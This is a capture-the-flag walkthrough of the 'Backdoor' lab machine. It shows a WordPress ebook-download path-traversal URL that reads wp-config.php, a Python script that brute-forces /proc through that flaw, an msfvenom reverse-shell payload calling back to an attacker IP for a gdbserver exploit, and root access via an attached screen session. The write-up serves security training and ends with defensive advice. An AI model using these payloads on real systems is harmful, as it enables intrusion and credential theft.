




**IP Address:** `10.10.11.125`  
**OS:** Linux  
**Difficulty:** Easy  
**Tags:** #WordPress, #PluginExploit, #FileDisclosure, #ProcBruteforce, #GDBServer, #PrivilegeEscalation, #Screen

---

## Synopsis

Backdoor is an easy Linux machine running a WordPress installation with a vulnerable plugin allowing arbitrary file downloads.  
By exploiting this flaw, we extract sensitive configuration files and enumerate `/proc` entries to discover a running `gdbserver` instance bound to an open port.  
This service is exploited for remote code execution, granting a foothold.  
Privilege escalation is achieved by attaching to an existing root `screen` session.

---

## Skills Required

- Basic web enumeration
- Understanding of WordPress structure and plugin exploitation
- Familiarity with `/proc` process enumeration
- Experience with `gdbserver` exploitation
- Linux privilege escalation techniques

## Skills Learned

- Identifying and exploiting WordPress plugin vulnerabilities for file disclosure
- Automating `/proc` enumeration to discover sensitive process details
- Exploiting `gdbserver` for remote command execution
- Abusing misconfigured `screen` sessions for root access

---

## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is reachable:

``` bash
ping -c 1 10.10.11.125
```


The machine responds, confirming it is alive.

---

### 1.2 Port Scanning

Scan all TCP ports:

``` bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.125 -oG allPorts
```


Extract open ports:


---

### 1.3 Targeted Scan

Perform a deeper scan on the identified open ports:

``` bash
nmap -sCV -p22,80,1337 10.10.11.125 -oN targeted
```



Open ports:

- 22 → SSH
- 80 → HTTP
- 1337 → Unknown service (later identified as `gdbserver`)

---

## 2. Web Enumeration

### 2.1 CMS Identification

To simplify navigation, add the host to `/etc/hosts`:

``` bash
echo "10.10.11.125 backdoor.htb" | sudo tee -a /etc/hosts
```

Identify the CMS:

``` bash
whatweb http://10.10.11.125
```

Detected **WordPress 5.8.1**.


Visiting the site:



The homepage is a default WordPress theme with minimal content.

### 2.2 Login Panel

Attempt to access the default login endpoint:

``` bash
http://10.10.11.125/wp-login.php
```



Default credentials failed.

---

### 2.3 Plugin Enumeration

By default, `/wp-content/plugins` should have a blank `index.php` to prevent directory listing.  
Here, the file is missing, allowing us to browse the directory:

``` bash
http://10.10.11.125/wp-content/plugins/
```


Two plugins found:

- `hello.php` → Uninteresting
- `ebook-download` → Contains `readme.txt` revealing version **1.1**.

---

### 2.4 Exploiting `ebook-download` Plugin

Search for known exploits:

``` bash
searchsploit ebook download
```


Exploit details:

`Exploit Title: WordPress eBook Download 1.1 | Directory Traversal Author: Wad-Deek Link: https://www.exploit-db.com/exploits/39575`

The vulnerability allows path traversal via:

`filedownload.php?ebookdownloadurl=../../../wp-config.php`

Retrieve `wp-config.php`:

``` bash
curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php"
```



Database credentials found but not directly useful.

---

## 3. Foothold via `/proc` Enumeration

### 3.1 What is `/proc/{PID}/cmdline`?

In Linux, `/proc/{PID}/cmdline` contains the full command line used to start a process, without spaces between arguments.  
This makes it useful for identifying how a process was launched — in our case, to investigate port 1337.

---

### 3.2 Brute Force Script

We brute-force `/proc/[pid]/cmdline` via the vulnerable plugin:

``` python
from pwn import * 
import requests, signal, time, sys

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

main_url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl="

def makeRequest():
    p1 = log.progress("Brute Force Attack")
    p1.status("Starting brute force attack")
    time.sleep(2)
    
    for i in range(1, 1000):
        p1.status("Trying with PATH /proc/%s/cmdline" % str(i))
        url = main_url + "/proc/" + str(i) + "/cmdline"
        r = requests.get(url)

        if len(r.content) > 82:  # Filter common repetitive entries
            print("------------------------------------------------")
            log.info("PATH: /proc/%s/cmdline" % str(i))
            log.info("Total length: %s" % len(r.content))
            print(r.content)
            print("------------------------------------------------")

if __name__ == '__main__':
    makeRequest()
```

Filtering results reveals:

`/bin/sh -c while true; do su user -c "cd /home/user; gdbserver --once 0.0.0.0:1337 /bin/true;"; done`

---

### 3.3 What is GDB and gdbserver?

- **GDB**: GNU Debugger, used to inspect and control programs during execution.
- **gdbserver**: Runs on the target machine to allow remote debugging by GDB running on another machine.

---

### 3.4 Exploiting `gdbserver`

Search for exploits:


Download exploit:

``` bash
searchsploit -m linux/remote/50539.py
```

Prepare reverse shell payload:

``` bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 PrependFork=true -o rev.bin
```

Run exploit and connect, obtaining a shell as `user`.


✅ **User flag obtained**

---

## 4. Privilege Escalation

### 4.1 Process Analysis

List running processes:

``` powershell
ps -faux | grep screen
```


Found:

``` bash
find /var/run/screen/S-root -empty -exec screen -dmS root ;
```

This command checks if `/var/run/screen/S-root` is empty and, if so, starts a detached root-owned `screen` session named `root`.

---

### 4.2 How `screen` Works

- Creates `/var/run/screen/S-{username}` directories for each user session.
- A root-owned session allows other users to attach if permissions are misconfigured.
- Requires `TERM` variable to be set (e.g., `TERM=xterm`).

---

### 4.3 Attaching to Root Screen Session

Check execution path:

``` bash
which screen | xargs ls -l
```

Attach to root session:

``` bash
TERM=xterm screen -x root/
```


✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---

## Summary of Exploitation Path

1. **Web Enumeration** → Identified WordPress 5.8.1 with `ebook-download` plugin.
2. **File Disclosure** → Retrieved `/wp-config.php` via plugin LFI.
3. **/proc Enumeration** → Discovered active `gdbserver` instance on port 1337.
4. **gdbserver Exploitation** → Remote code execution and user shell.
5. **Privilege Escalation** → Attached to root `screen` session for full control.

---

## Defensive Recommendations

- Restrict directory listing and sensitive file access in web servers.
- Keep WordPress core and plugins updated to patch known vulnerabilities.
- Limit exposure of debugging services (`gdbserver`) to trusted hosts.
- Monitor and restrict `/proc` access to non-root users.
- Avoid running persistent root `screen` sessions accessible to other users.
